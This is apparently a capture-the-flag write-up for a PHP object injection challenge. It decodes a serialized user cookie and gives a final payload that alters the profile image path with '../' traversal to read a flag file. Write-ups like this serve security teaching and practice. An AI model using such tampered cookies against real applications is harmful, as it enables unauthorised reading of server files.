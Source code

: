 # jack of hearts

> Solved By : thewhiteh4t

```Port : 20022```

- User cookie is double base64 encoded, so we double decoded and ended up with the following :

```O:4:"user":3:{s:8:"username";s:4:"user";s:5:"admin";b:0;s:11:"profile_img";s:23:"/var/www/html/guest.png";}```

```
O   -> Object
O:4 -> Object of length 4
:3: -> Object has 3 attributes
s   -> String data type
s:8 -> String of length 8
b   -> Boolean data type
b:0 -> False
```

- This was a **PHP Object Injection** challenge
- The goal of this challenge was not to become admin and if we try then the server sends hints or funny responses
- Directly accessing the flag did not work so we can simply use `../`
- Final payload :

```O:4:"user":3:{s:8:"username";s:4:"user";s:5:"admin";b:0;s:11:"profile_img";s:40:"/var/www/html/../../../../../../flag.png";}```

![](https://i.imgur.com/JGNO34j.png)